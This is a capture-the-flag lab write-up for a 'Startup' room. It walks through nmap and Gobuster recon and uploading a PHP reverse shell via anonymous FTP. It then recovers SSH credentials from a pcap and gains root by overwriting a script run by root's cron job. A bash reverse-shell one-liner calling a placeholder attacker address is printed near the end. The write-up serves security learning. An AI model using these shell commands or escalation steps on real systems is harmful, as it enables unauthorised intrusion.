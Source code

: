 # Startup

##### Written: 17/09/2021

##### IP Address: 10.10.96.254

======================

### What is the secret spicy soup recipe?

First, let's run a basic **nmap** scan on our target machine using the follow command:

```
sudo nmap -sC -sV -vv 10.10.96.254
```

Results:

<img style="float: left;" src="screenshots/screenshot1.png">

As we can see, there are 3 ports currently open on the machine:

* 21 - FTP Server
* 22 - SSH Server
* 80 - HTTP Server

We can also see that the FTP server allows for **anonymous login**! This is a misconfiguration that can be commonly found on FTP servers, allowing us to access the files within the server without a password.

Let's login to the FTP server. We use the username: **anonymous** and do not need to supply a password.

<img style="float: left;" src="screenshots/screenshot2.png">

We find two files: **important.jpg** and **notice.txt**. There is also a **ftp** directory, although there seems to be nothing inside. Now let's download those files to our local machine using the command:

```
get < file_name >
```

<br>

Contents of **notice.txt**:

<img style="float: left;" src="screenshots/screenshot3.png">

Looks like some fluff about Among Us memes :sweat_smile:. There is also mention of **Maya**. We can note this down as it could be a potential username that we can use later on.

<br>

Next, we can open **important.jpg**, but it will give us the following error:

<img style="float: left;" src="screenshots/screenshot4.png">

Let's check the file format to find out what type of file this really is. We can do so by checking the **file signature**, which are also known as **magic numbers** or **magic bytes**. To do so, we use **hexeditor** like so:

```
hexeditor < file_name >
```

<img style="float: left;" src="screenshots/screenshot5.png">

Here, we can see the first few lines of hexadecimal characters that make up the file. The magic bytes will always be placed at the very beginning of the file. Looking at the following wikipedia page: 

https://en.wikipedia.org/wiki/List_of_file_signatures#:~:text=This%20is%20a%20list%20of,its%20contents%20will%20be%20unintelligible

<img style="float: left;" src="screenshots/screenshot6.png">

We can see that the file is actually a **PNG** file (*89 50 4E 47 0D 0A 1A 0A*). Now we just have to change the file extension of important.jpg to **important.png** and we should be able to view it.

Contents of **important.png**:

<img style="float: left;" src="screenshots/screenshot7.png">

Found the Among Us meme! While the content does not seem especially interesting, perhaps we can check for steganography by using **zsteg**:

```
zsteg < file_name >
```

Results:
<img style="float: left;" src="screenshots/screenshot8.png">





I'm not well-versed with steganography, but I believe that there is nothing that we can use from these results. Hitting a dead end here, let's go ahead and explore the other services that are currently running on our target.

<br>

When we visit the web server, we are greeted with the following page:

<img style="float: left;" src="screenshots/screenshot9.png">

There is a **'contact us'** link that opens the **mailto** functionality:

<img style="float: left;" src="screenshots/screenshot10.png">

From this Wikipedia page: https://en.wikipedia.org/wiki/Mailto, I learnt that **mailto** is a Uniform Resource Identifier (URI) scheme for email addresses. It is used to produce hyperlinks on websites that allow users to send an email to a specific address directly from an HTML document, without having to copy it and entering it into an email client. 

It would also seem that the **mailto** has not been properly configured as it points to **#**, instead of an email address. Looking at the source code of the page, we can confirm this as the developer has left a comment:

<img style="float: left;" src="screenshots/screenshot11.png">

At first, I thought that we would be exploiting a vulnerability with this **mailto** functionality. However, after doing some research online, I was unable to find a vulnerability that could be used for this room. (There were a variety of vulnerabilities that do exist though!)

<br>

Next, we can run a **Gobuster** scan to try and find any hidden directories on this web server:

```
gobuster dir -u http://10.10.96.254/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Results of scan:

<img style="float: left;" src="screenshots/screenshot12.png">

There is a **/files** directory on the web server! Visiting this directory, we are brought to the FTP directory from earlier.

<img style="float: left;" src="screenshots/screenshot13.png">

Great! This means that we can upload a **reverse shell** script onto the FTP server and then execute it from this web directory, granting us access into the machine. 

We will be using the **PHP** **reverse shell** script created by **pentestmonkey**. To upload the script onto the FTP server, we use the following command:

```
put <file_name>
```

<img style="float: left;" src="screenshots/screenshot14.png">

After doing so, we can see that the script has been successfully uploaded on the **ftp** directory within the FTP server. Now, we just have to run a **netcat listener** and open the script within the web browser.

**netcat** command:

```
nc -lvnp 1234
```

<br>

Gaining access :smiling_imp: :

<img style="float: left;" src="screenshots/screenshot15.png">

<br>

<img style="float: left;" src="screenshots/screenshot16.png">

In the **/** directory, we can find the **recipe.txt** file, which gives us flag to the first question:

<img style="float: left;" src="screenshots/screenshot17.png">

The secret soup recipe is **love**.

---

### What are the contents of user.txt?

Within the **/** directory, we can also see an interesting directory called **incidents**. The directory contains a **pcap** file called **suspicious.pcapng**:

<img style="float: left;" src="screenshots/screenshot18.png">

Let's go ahead and download this file onto our local machine and open it up in **Wireshark**!

<br>

<img style="float: left;" src="screenshots/screenshot19.png">

We will need to sieve through the captured packets to see if we can obtain any usable information such as passwords. Firstly, let's check out the **HTTP** traffic captured, as that is unencrypted and could reveal some credentials:

<img style="float: left;" src="screenshots/screenshot20.png">

There are only a few HTTP packets and none of them contain any credentials. With that said, it seems as if someone prior had already conducted the same attack as us, having uploaded their own reverse shell onto the FTP server.

<br>

Next, let's look at **TCP** traffic. We can simple **right-click** on any of the TCP packets and click on **Follow** > **TCP Stream**. 

<img style="float: left;" src="screenshots/screenshot21.png">

Nice! We've found a potential username and password -> **lennie:c4ntg3t3n0ughsp1c3**

With this credentials, we can try to log into the **SSH** server:

<img style="float: left;" src="screenshots/screenshot22.png">

And we're in! We can then obtain **user.txt**.

---

### What are the contents of root.txt?

Within Lennie's home directory, there are two interesting directories: **Documents** and **scripts**.

Looking at **Documents**, there are 3 text files: **concern.txt**, **list.txt** and **note.txt**. These files did not seem to contain anything that we can use to escalate our privileges.

Next, in the **scripts** directory, there is a **planner.sh** script and **startup_list.txt** file. What's interesting to note is that both of these files are owned by **root**.

<img style="float: left;" src="screenshots/screenshot23.png">

Since we can read **planner.sh** as a non-root user, we can find out what it does:

<img style="float: left;" src="screenshots/screenshot24.png">

It looks like it echoes the contents of **$LIST** into **startup_list.txt**, before running **/etc/print.sh**. Let's now take a look at **/etc/print.sh**.

<img style="float: left;" src="screenshots/screenshot25.png">

All it does is **echo "Done!"**. With that said, **print.sh** actually belongs to **Lennie**! This means that we are able to write over it and since it's a bash script, we can have it execute anything we want, such as opening a **reverse shell**. We'll be using the **bash** reverse shell from: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
bash -i >& /dev/tcp/<IP_ADDRESS_HERE>/<PORT_HERE> 0>&1
```

Now, we just have to figure out how we can execute **planner.sh** as **root**, which will then subsequently execute **print.sh** and open  up the reverse shell with root privileges.

<br>

At this point, I had an inkling that **planner.sh** was most probably being run as a **cronjob** by root. To verify this, we can use a nifty program called **pspy** (https://github.com/DominicBreuker/pspy/blob/master/README.md), which allows us to snoop on processes without the need for root permissions. This tool will tell us what cronjobs root is running without needing root permissions. 

After uploading the **pspy32** executable onto the SSH server, we can then execute it:

<img style="float: left;" src="screenshots/screenshot26.png">

As we can see, the **planner.sh** was automatically run with the UID=0 (root). This confirms that it is indeed a cronjob belonging to root!

Now, all we have to do is set up our netcat listener, sit back and relax.

<br>

<img style="float: left;" src="screenshots/screenshot27.png">

**After a few seconds, our reverse shell is successfully opened and we are logged into the server as root. With that, we can obtain root.txt and complete the room.**

